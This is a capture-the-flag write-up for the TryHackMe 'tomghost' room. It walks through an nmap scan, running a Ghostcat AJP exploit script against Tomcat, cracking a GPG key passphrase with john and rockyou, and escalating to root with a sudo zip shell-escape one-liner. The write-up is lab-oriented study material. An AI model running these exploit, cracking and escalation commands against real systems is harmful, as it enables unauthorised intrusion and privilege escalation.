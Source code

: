 # TryHackMe-tomghost-CTF

Writeup for CTF tomghost avaiable on https://www.tryhackme.com (https://www.tryhackme.com/room/tomghost)

The challange is to find the flags contained user.txt and root.txt

First of all i will set bash variable for my ip and for victims ip so I will call them $V_IP (victims) $M_IP (my tryhackme vpn IP).

I will nmap scan the machine (I'm root so the scan would be syn scan by default) saving the output in nmap_syn_def

`nmap -A $V_IP -oN nmap_syn_def`

Output is:

> 22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
> 
> | ssh-hostkey: 
> |   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
> |   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
> |_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
> 
> 53/tcp   open  tcpwrapped
> 
> 8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
> | ajp-methods: 
> |_  Supported methods: GET HEAD POST OPTIONS
> 
> 8080/tcp open  http       Apache Tomcat 9.0.30
> |_http-favicon: Apache Tomcat
> |_http-open-proxy: Proxy might be redirecting requests
> |_http-title: Apache Tomcat/9.0.30

I will visit $V_IP:8080 and try to find hidden paths with dirb, but neither I found somethin useful neither I could access tomcat manager paths

On the web I found that "ghostcat" is vulnerability for Tomcat (here for details -> https://www.chaitin.cn/en/ghostcat)

using searchsploit i find a python script exploting this vulnerability, it requires victim ip and ajp tomcat port as parameters, I copied it in my working directory and ran it:

`python 48143.py -p 8009 $V_IP`

It gives back some html containg some credentials:

> ...
>  <description>
>     Welcome to GhostCat
>	skyfu*k:<password>
>  </description>
> ...

 Those are valid ssh credentials for $V_IP so I'll use them to gain first access.
  
skyfu*k home directory contains two files: "credential.pgp" "tryhackme.asc", I will inspect them later, first step I use find to locate "user.txt" as I'm expecting to need no more exploitation to find it. In fact it's in user merlin's home.
  
Now it's time to inspect the other files, pgp is actually a gpg encrypted file and I guess tryhackme.asc is the secret key that you need to use for decryption.

I will import it:
  
`gpg --import tryhackme.asc`
  
and try to decpryt credential file:
  
`gpg --decpryt credentials.pgp`
  
output is:
  
>You need a passphrase to unlock the secret key for
>user: "tryhackme <stuxnet@tryhackme.com>"
>1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)
>
>gpg: gpg-agent is not available in this session
>Enter passphrase: 
  
I return to my host shell in order to get the secret key via scp:
  
`scp skyfuc*k$V_IP:/home/skyfu*k/tryhackme.asc .`
  
I will use gpg2john to obtain a john crackable file and crack it using rockyou.txt wordlist
  
`gpg2john tryhackme.asc > pgphash`
 
`john pgphash --wordlist=/usr/share/wordlist/rockyou.txt`
  
 It cracks the passphrase for user tryhackme, I'll go back to victims machine and use it to gpg decrypt credental.pgp, I've obtained the password for user merlin.
  
 I will now ssh into the victims machine using merlin's credentials.
  
 I will look at merlin sudo's permissions:
 
 `sudo -l -l`
  
  output is:
  
>  Matching Defaults entries for merlin on ubuntu:
 >   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

>User merlin may run the following commands on ubuntu:
 >   (root : root) NOPASSWD: /usr/bin/zip
  
  I'll go to GTFOBins to see if I can use it to do some escalation (https://gtfobins.github.io/gtfobins/zip/#sudo)

I'll use what I found:
  
`sudo zip $(mktemp -u) /etc/hosts -T -TT 'sh #'`
 
`whoami`
 
> root
  
Now I'm able to cat /root/root.txtand we're done
